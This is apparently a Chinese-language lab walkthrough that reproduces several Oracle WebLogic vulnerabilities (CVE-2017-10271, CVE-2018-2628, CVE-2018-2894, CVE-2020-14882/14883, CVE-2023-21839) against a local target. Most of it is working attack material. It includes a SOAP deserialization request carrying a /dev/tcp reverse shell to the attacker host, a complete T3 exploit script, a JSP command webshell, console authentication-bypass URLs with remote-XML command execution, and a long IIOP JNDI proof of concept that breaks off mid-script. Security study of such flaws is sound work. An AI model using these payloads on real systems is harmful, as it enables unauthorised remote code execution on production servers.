


| 项目          | 详情                                                                                                                                  |
| ----------- | ----------------------------------------------------------------------------------------------------------------------------------- |
| **攻击机**     | Kali Linux（IP：192.168.197.128）                                                                                                      |
| **靶机**      | Ubuntu Server 24.04（IP：192.168.197.88）                                                                                              |
| **CVSS 评分** | CVE-2017-10271: 7.5（高危） / CVE-2018-2628: 9.8（严重） / CVE-2018-2894: 9.8（严重） / CVE-2020-14882/14883: 9.8（严重） / CVE-2023-21839: 7.5（高危） |
| **典型漏洞编号**  | CVE-2017-10271 / CVE-2018-2628 / CVE-2018-2894 / CVE-2020-14882 & CVE-2020-14883 / CVE-2023-21839 / UDDI Explorer SSRF / 弱口令        |
| **影响组件**    | Oracle WebLogic Server 10.3.6.0 / 12.2.1.3 / 12.2.1.4 / 14.1.1.0 等                                                                  |
| **漏洞类型**    | XMLDecoder 反序列化 / T3 反序列化 / 任意文件上传 / 权限绕过 + 表达式注入 / JNDI 注入 / SSRF / 弱口令                                                            |
| **利用条件**    | 特定版本 + 组件开启（如 wls-wsat、T3 协议、Web Service Test Page、UDDI Explorer、弱口令等）                                                              |
| **核心原理**    | XMLDecoder 解析缺陷、T3/IIOP 协议反序列化、权限校验绕过、JNDI 注入、SSRF、弱口令配置                                                                            |
## 一、漏洞原理

Oracle WebLogic Server 是 Oracle 公司开发的一款企业级 Java EE 应用服务器，广泛应用于金融、电信、政府等行业的核心业务系统。由于历史版本众多、功能模块复杂，WebLogic 成为了安全研究的热点目标，多年来爆出了大量高危漏洞。

WebLogic 的漏洞主要围绕以下几条技术主线展开：

**XMLDecoder 反序列化**：WebLogic 的 WLS Security 组件对外提供 WebService 服务，使用 `XMLDecoder` 解析用户传入的 XML 数据。由于 `XMLDecoder` 在解析过程中会实例化任意 Java 类并调用其方法，攻击者可以构造恶意 XML 触发反序列化，执行任意命令。CVE-2017-10271 便是典型代表。

**T3 协议反序列化**：T3 是 WebLogic 独有的通信协议，用于客户端与服务器之间的交互。由于 T3 协议在反序列化数据时缺乏有效的安全校验，攻击者可以通过 T3 协议发送恶意序列化对象，结合 ysoserial 等工具生成 Gadget 链，实现远程代码执行。CVE-2018-2628 和 CVE-2023-21839 均属于此类，后者还支持 IIOP 协议。

**未授权访问与权限绕过**：CVE-2020-14882 允许攻击者通过构造特殊 URL 绕过管理控制台的权限验证，未授权访问后台；再配合 CVE-2020-14883 的 MVEL 表达式注入或 `FileSystemXmlApplicationContext` 加载远程 XML，即可实现未授权 RCE。

**任意文件上传与文件读取**：CVE-2018-2894 利用了 Web Service Test Page 的任意文件上传功能，攻击者可上传 JSP Webshell。此外，WebLogic 的 UDDI Explorer 应用存在 SSRF 漏洞，可探测内网并攻击 Redis 等服务。弱口令环境则展示了通过任意文件读取获取管理员密码，最终部署 Webshell 的完整利用链。

---

## 二、漏洞复现

### 1. CVE-2017-10271（XMLDecoder 反序列化 RCE）

Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

**① 反弹 Shell**

发送以下 POST 请求（注意反弹 Shell 命令中的特殊字符需进行 XML 实体编码）：

```http wrap
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.197.88:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/攻击机IP/4444 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```


同时记得在 Kali 上启动 `nc -lvnp 4444` 监听，即可获得反弹 Shell。


**② 写入 Webshell**

发送以下请求，向 `bea_wls_internal` 目录写入 JSP 文件：

```http wrap
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.197.88:7001
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 `http://192.168.197.88:7001/bea_wls_internal/test.jsp` 即可看到 `test` 输出。


这里已经成功写入了 `test.jsp`，说明利用链已经打通。接下来只需要把写入内容替换为一句话木马，就可以用蚁剑连接获取图形化 Webshell，后续过程不再演示。
### 2. CVE-2018-2628（T3 协议反序列化 RCE）

WebLogic 的 T3 协议在反序列化数据时存在漏洞，攻击者可结合 JRMP 实现 RCE。


CVE-2018-2628 的利用链是：


**补充说明（JRMP是什么）：** JRMP 是 Java 远程方法调用（RMI）的底层通信协议。简单说，它就是 Java 程序之间“跨网络调用方法”时使用的语言。

| 协议 / 机制                           | 说明                                            |
| --------------------------------- | --------------------------------------------- |
| RMI（Remote Method Invocation）     | Java 的远程方法调用，允许一个 Java 程序调用另一台机器上 Java 对象的方法。 |
| JRMP（Java Remote Method Protocol） | RMI 的底层通信协议，负责在网络中传输方法调用、参数和返回值。              |


比如，服务器上有一个 Java 对象，客户端想调用它的方法：
1. 客户端通过 RMI Registry 查找对象。
2. 客户端和服务器建立 JRMP 连接。
3. 客户端发送方法名和参数，服务器执行后返回结果。
4. 参数和返回值都是**序列化对象**，通过网络传输。

因此 JRMP 是 Java RMI 的通信协议，负责传输序列化对象。**在本靶场中，攻击者利用它搭建恶意 JRMP 服务，向目标投递反序列化 Payload，从而触发 RCE。**

**① 用 Java 8 容器生成 payload.out**

由于kali的apt不能安装Java 8，因此使用docker，拉取 Java 8 镜像的命令：

```text wrap
docker pull eclipse-temurin:8-jdk
```

在 Kali 上下载 ysoserial工具，下载链接如下（ysoserial 是 Java 反序列化利用的权威工具，可以生成各种 Gadget 链的序列化数据）：
```text wrap
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

然后执行下面的命令生成 payload.out：

```text wrap
docker run --rm -v /root:/workspace -w /workspace eclipse-temurin:8-jdk \
  java -jar ysoserial-all.jar JRMPClient 192.168.197.128:1099 > payload.out
```

**② 启动 JRMP Server（攻击者搭建的恶意 JRMP 服务）**

使用 Java 8 容器启动 JRMP 监听，这个需要保持在后台（注意"touch /tmp/success"命令就在这里）：

```text wrap
docker run --rm -it --network host \
  -v /root/ysoserial-all.jar:/ysoserial-all.jar \
  eclipse-temurin:8-jdk \
  java -cp /ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 "touch /tmp/success"
```

**③ 发送 Exploit（也就是发送t3数据包，数据包中的payload.out让靶机主动回连攻击者的JRMP 服务）**

使用以下脚本发送Exploit：

但是一定要注意，该脚本使用了前面生成的payload.out，因此exploit.py和payload.out必须在同一个目录。

```python wrap
# -*- coding: utf-8 -*-
from __future__ import print_function
import binascii
import os
import socket
import sys
import time


def generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    bin_file = open('payload.out','rb').read()
    return binascii.hexlify(bin_file)


def t3_handshake(sock, server_addr):
    sock.connect(server_addr)
    sock.send('74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'.decode('hex'))
    time.sleep(1)
    sock.recv(1024)
    print('handshake successful')


def build_t3_request_object(sock, port):
    data1 = '000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f581daa4f5b90e2aebfc607499b4027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371'
    data2 = '007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00054c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e000578707702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e323237001257494e2d4147444d565155423154362e656883348cd6000000070000{0}ffffffffffffffffffffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07'.format('{:04x}'.format(dport))
    data3 = '1a7727000d3234322e323134'
    data4 = '2e312e32353461863d1d0000000078'
    for d in [data1,data2,data3,data4]:
        sock.send(d.decode('hex'))
    time.sleep(2)
    print('send request payload successful,recv length:%d'%(len(sock.recv(2048))))


def send_payload_objdata(sock, data):
    payload='056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000'
    payload+=data
    payload+='fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff'
    payload = '%s%s'%('{:08x}'.format(len(payload)/2 + 4),payload)
    sock.send(payload.decode('hex'))
    time.sleep(2)
    sock.send(payload.decode('hex'))
    res = ''
    try:
        while True:
            res += sock.recv(4096)
            time.sleep(0.1)
    except Exception:
        pass
    return res


def exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(65)
    server_addr = (dip, dport)
    t3_handshake(sock, server_addr)
    build_t3_request_object(sock, dport)
    payload = generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
    print("payload: " + payload)
    rs=send_payload_objdata(sock, payload)
    print('response: ' + rs)
    print('exploit completed!')


if __name__=="__main__":
    #check for args, print usage if incorrect
    if len(sys.argv) != 7:
        print('\nUsage:\nexploit.py [victim ip] [victim port] [path to ysoserial] '
              '[JRMPListener ip] [JRMPListener port] [JRMPClient]\n')
        sys.exit()
    dip = sys.argv[1]
    dport = int(sys.argv[2])
    path_ysoserial = sys.argv[3]
    jrmp_listener_ip = sys.argv[4]
    jrmp_listener_port = sys.argv[5]
    jrmp_client = sys.argv[6]
    exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
```

使用 `exploit.py` 脚本向目标发送 T3 数据包：

```text wrap
python2 exploit.py 192.168.197.88 7001 ysoserial-all.jar 192.168.197.128 1099 JRMPClient
```

执行后进入容器验证：

```text wrap
docker-compose exec weblogic ls -l /tmp
```

文件存在即利用成功。


后续把`"touch /tmp/success"`改成反弹shell命令即可，这里不再演示。
### 3. CVE-2018-2894（任意文件上传 Getshell）

Oracle 7 月更新中，修复了 Weblogic Web Service Test Page 中一处任意文件上传漏洞，Web Service Test Page 在"生产模式"下默认不开启，所以该漏洞有一定限制。

利用该漏洞，可以上传任意 jsp 文件，进而获取服务器权限。

**① 开启测试页**

访问 `http://192.168.197.88:7001/console`，使用 `weblogic` 账号和 `docker-compose logs | grep password` 获取的密码登录。


在 `base_domain` 配置的高级选项中开启“启用 Web 服务测试页”。


启用 Web 服务测试页，然后记得**点击保存**。


**② 设置 Work Home Dir**

访问 `http://192.168.197.88:7001/ws_utc/config.do`，将 Work Home Dir 设置为：

```text wrap
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
```


**③ 上传 Webshell**

点击安全 -> 添加，上传 JSP Webshell。

可以使用下面的Webshell，将下面的内容保存为 `shell.jsp` 上传即可，这是一个经典的 JSP 命令回显木马，上传后使用`?cmd=<命令>`即可执行任意命令。
```jsp wrap
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = br.readLine()) != null) {
            out.println(line + "<br>");
        }
    }
%>
```

上传后查看返回数据包中的时间戳。

**④ 访问 Webshell**

```text wrap
http://192.168.197.88:7001/ws_utc/css/config/keystore/1791936984788_shell.jsp?cmd=id
```


后续可以将上面的Webshell替换为蚁剑的一句话木马，然后用蚁剑连接，这里不再展示。
### 4. CVE-2020-14882 & CVE-2020-14883（未授权 RCE）

CVE-2020-14882 允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883 允许后台任意用户通过 HTTP 协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个 GET 请求在远程 Weblogic 服务器上以未授权的任意用户身份执行命令。

**① 未授权访问后台**

如果直接访问`http://192.168.197.88:7001/console`，会发现需要登陆（当然这里也可以使用`docker-compose logs | grep password`命令查看密码，但是上一题查看密码并进入后台是因为需要修改“启用 Web 服务测试页”为开启状态，因为只有这样才能利用漏洞。但是本题不需要，而且正常情况攻击者也不能这样做，因此需要另想办法）。


访问以下 URL 即可绕过权限验证，直接进入后台：

```text wrap
http://192.168.197.88:7001/console/css/%252e%252e%252fconsole.portal
```


这个 URL 之所以能绕过权限验证，核心在于 **双重URL编码 + 路径穿越** 的组合技巧，把它逐层解码：

|层级|操作|结果|
|---|---|---|
|原始|`%252e%252e%252f`|—|
|第一次解码|`%25` → `%`|`%2e%2e%2f`|
|第二次解码|`%2e` → `.`，`%2f` → `/`|`../`|

所以，`/console/css/%252e%252e%252fconsole.portal` 在服务器经过**两次解码**后，实际变成了：

```text wrap
/console/css/../console.portal
```

经过路径规范化（`..` 回退一级），最终等价于：

```text wrap
/console/console.portal
```

这正是 WebLogic 管理控制台的入口。访问后台后发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码。

此时需要利用到第二个漏洞 CVE-2020-14883。这个漏洞的利用方式有两种，一是通过 `com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

**② 执行命令（方式一：ShellSession）**

这个利用方法只能在 Weblogic 12.2.1 以上版本利用，因为 10.3.6 并不存在 `com.tangosol.coherence.mvel2.sh.ShellSession` 类。

```text wrap
http://192.168.197.88:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

检查容器内/tmp目录下是否多了success1，发现确实多了，说明命令成功执行。
```text wrap
docker-compose exec weblogic ls -l /tmp
```


**③ 执行命令（方式二：FileSystemXmlApplicationContext）**

这是一种更为通用的方法，最早在 CVE-2019-2725 被提出，对于所有 Weblogic 版本均有效。

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，可以命名为`rce.xml`。
```text wrap
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```
可以将`rce.xml`保存在kali上面，然后在kali上开启http服务，确保靶机可以访问并读取。
```text wrap
python3 -m http.server 8080
```

此时kali上面的`rce.xml`就被托管在`http://192.168.197.128:8080/rce.xml`下，其中`192.168.197.128`是kali的IP地址。


然后通过如下 URL，即可让 Weblogic 加载这个 XML，并执行其中的命令：

```text wrap
http://192.168.197.88:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.197.128:8080/rce.xml")
```


此时靶机上可以看到success2被创建。

这个利用方法也有自己的缺点，就是需要 Weblogic 的服务器能够访问到恶意 XML。

后续将`rce.xml`中的命令改为反弹shell，这里不再演示。
### 5. CVE-2023-21839（未授权 JNDI 注入 RCE）

该漏洞允许未授权攻击者通过 T3 或 IIOP 协议发起 JNDI lookup，结合反序列化实现 RCE。

下载JNDIExploit工具，命令如下：
```text wrap
wget https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip

#下载后解压
unzip JNDIExploit.v1.2.zip
```
使用 Docker 启动JNDIExploit，用于提供LDAP和HTTP服务（相当于攻击者自己搭的恶意服务）。

```text wrap
docker run --rm -it --network host \
  -v /root/JNDIExploit.v1.2:/workspace \
  -w /workspace \
  eclipse-temurin:8-jdk \
  java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.197.128 -p 8080
```

**参数说明**：
- `--network host`：容器直接使用 Kali 的网络，这样目标才能回连到 `1389`（LDAP）和 `8080`（HTTP）端口。
- `-v /root/JNDIExploit.v1.2:/workspace`：把宿主机目录挂载到容器，确保 jar 和 lib 都可用。
- `-w /workspace`：设置容器工作目录。
- `-i 192.168.197.128`：指定目标回连的 IP（你的 Kali IP）。
- `-p 8080`：指定 JNDIExploit 的 HTTP 服务端口（也可以改成其他未占用端口）。

启动成功后，会看到类似输出：
```text wrap
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
```

在另一个终端运行 POC 脚本，指向这个 LDAP 服务：
```python wrap
# -*- encoding: utf-8 -*-
import socket
import argparse

class POC:
    def __init__(self, target, port, ldap):
        self.target = target
        self.port = port
        self.timeout = 5
        self.ldap = ldap

    def verify(self):
        vp = "743320392e322e302e300a41533a3235350a484c3a39320a4d5" \
             "33a31303030303030300a50553a74333a2f2f746573743a373030310a0a"
        print("[*] ip :",self.target)
        print("[*] port :",self.port)
        print("[*] ldap :",self.ldap)
        ver = getVer(self.target, self.port, bytes.fromhex(vp))
        wlsKey1 = None
        wlsKey2 = None
        if ver == '12':
            wlsKey1 = "00424541080103000000000c41646d696e53657276657200000000000000003349" \
                      "444c3a7765626c6f6769632f636f7262612f636f732f6e616d696e672f4e616d696e6743" \
                      "6f6e74657874416e793a312e3000000000000238000000000000014245412c0000001000" \
                      "00000000000000{{key1}}"
            wlsKey2 = "00424541080103000000000c41646d696e53657276657200000000000000003349" \
                      "444c3a7765626c6f6769632f636f7262612f636f732f6e616d696e672f4e616d696e6743" \
                      "6f6e74657874416e793a312e30000000000004{{key3}}000000014245412c0000001000" \
                      "00000000000000{{key1}}"
        elif ver == '14':
            wlsKey1 = "00424541080103000000000c41646" \
                      "d696e53657276657200000000000000003349444c3a7765626c" \
                      "6f6769632f636f7262612f636f732f6e616d696e672f4e616d6" \
                      "96e67436f6e74657874416e793a312e30000000000002380000" \
                      "00000000014245412e000000100000000000000000{{key1}}"
            wlsKey2 = "00424541080103000000000c41646d696e53657276657" \
                      "200000000000000003349444c3a7765626c6f6769632f636f72" \
                      "62612f636f732f6e616d696e672f4e616d696e67436f6e74657" \
                      "874416e793a312e30000000000004{{key3}}00000001424541" \
                      "2e000000100000000000000000{{key1}}"
        else:
            print("[*] ",'版本不符合影响范围')
            return
        try:
            ldap = str(hex(len(self.ldap)))[2:] + self.ldap.encode().hex()
            print("[*] version: " ,ver)
            soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            soc.settimeout(self.timeout)
            soc.connect((self.target, int(self.port)))
            str2 = "47494f50010200030000001700000002000000000000000b4e616d6553657276696365"
            soc.send(bytes.fromhex(str2))
            buf = soc.recv(1024)
            print("[*] 2 ", 'locateRequest')
            ioff = 0x60
            while True:
                if buf[ioff] != 0x00:
                    ioff = ioff + 0x01
                else:
                    break
            if ioff > 1024 * 10:
                return
            while True:
                if buf[ioff] == 0x00:
                    ioff = ioff + 0x01
                else:
                    break
            p = []
            p.append(buf[ioff])
            ioff = ioff + 0x01
            p.append(buf[ioff])
            tmport = int(p[1]) | int(p[0]) << 8
            if tmport != int(self.port):
                return
            lt = ioff - 0x60
            foff = 0x60 + lt + 0x75
            while True:
                if buf[foff] == 0x0:
                    foff = foff + 0x01
                else:
                    break
            key1 = buf[foff:foff + 8].hex()
            key2 = (b'\xff\xff\xff\xff' + buf[foff + 4:foff + 8]).hex()
            wlsKey1 = wlsKey1.replace("{{key1}}",key1)
            str3_request = "00000003030000000000000000000078"+wlsKey1+"0000000b726562696e645f616e79000000000006000000050000001c00000000000000010000000d3137322e32362e3131322e310000ec5b000000010000000c00000000000100200501000100000006000000f4000000000000002849444c3a6f6d672e6f72672f53656e64696e67436f6e746578742f436f6465426173653a312e30000000000100000000000000b8000102000000000d3137322e32362e3131322e310000ec5b0000006400424541080103000000000100000000000000000000002849444c3a6f6d672e6f72672f53656e64696e67436f6e746578742f436f6465426173653a312e30000000000331320000000000014245412a0000001000000000000000005eedafdebc0d227000000001000000010000002c00000000000100200000000300010020000100010501000100010100000000030001010000010109050100010000000f00000020000000000000000000000000000000010000000000000000010000000000000042454103000000140000000000000000"+key2+"000000004245410000000004000a03010000000000000001000000047465737400000001000000000000001d0000001c000000000000000100000000000000010000000000000000000000007fffff0200000054524d493a7765626c6f6769632e6a6e64692e696e7465726e616c2e466f726569676e4f70617175655265666572656e63653a443233374439314342324630463638413a3344323135323746454435393645463100000000007fffff020000002349444c3a6f6d672e6f72672f434f5242412f57537472696e6756616c75653a312e300000000000"+ldap
            str_size = str(hex(int(len(str3_request)/2))).replace("0x","")
            while len(str_size) != 8:
                str_size = "0"+str_size
            str3_header = "47494f5001020000"+str_size
            str3 = str3_header+str3_request
            soc.send(bytes.fromhex(str3))
            buf = soc.recv(1024)
            print("[*] 3 ", 'rebindAny')
            startoff = 0x64 + lt + 0xc0 + len(self.target) + 0xac + lt + 0x5d
            while buf[startoff] != 0x32:
                if startoff > 0x2710:
                    break
                startoff = startoff + 0x01
            if startoff > 0x2710:
                key3 = b'\x32\x38\x39\x00'.hex()
            else:
                key3 = buf[startoff : startoff+4].hex()
            wlsKey2 = wlsKey2.replace("{{key3}}",key3)
            wlsKey2 = wlsKey2.replace("{{key1}}",key1)
            str4_request = "00000004030000000000000000000078"+wlsKey2+"0000000b726562696e645f616e79000000000004000000050000001c00000000000000010000000d3137322e32362e3131322e310000ec5b000000010000000c00000000000100200501000142454103000000140000000000000000"+key2+"000000004245410000000004000a030100000001000000047465737400000001000000000000001d0000001c000000000000000100000000000000010000000000000000000000007fffff0200000054524d493a7765626c6f6769632e6a6e64692e696e7465726e616c2e466f726569676e4f70617175655265666572656e63653a443233374439314342324630463638413a3344323135323746454435393645463100000000007fffff020000002349444c3a6f6d672e6f72672f434f5242412f57537472696e6756616c75653a312e300000000000"+ldap
            str_size = str(hex(int(len(str4_request) / 2))).replace("0x", "")
            while len(str_size) != 8:
                str_size = "0"+str_size
            str4_header = "47494f5001020000"+str_size
            str4 = str4_header+str4_request
            soc.send(bytes.fromhex(str4))
            buf = soc.recv(1024)
            print("[*] 4 ",'rebindAny')
            str5 = "47494f50010200030000001700000005000000000000000b4e616d6553657276696365"
            soc.send(bytes.fromhex(str5))
            buf = soc.recv(1024)
            print("[*] 5 ",'locateRequest')
            str6 = "47494f50010200000000011100000006030000000000000000000078"+wlsKey1+"000000087265736f6c76650000000004000000050000001c00000000000000010000000d3137322e32362e3131322e310000ec5b000000010000000c00000000000100200501000142454103000000140000000000000000"+key2+"000000004245410000000004000a030100000000000000010000000574657374000000000000000100"
            soc.send(bytes.fromhex(str6))
            buf = soc.recv(1024)
            print("[*] 6 ",'resolve')
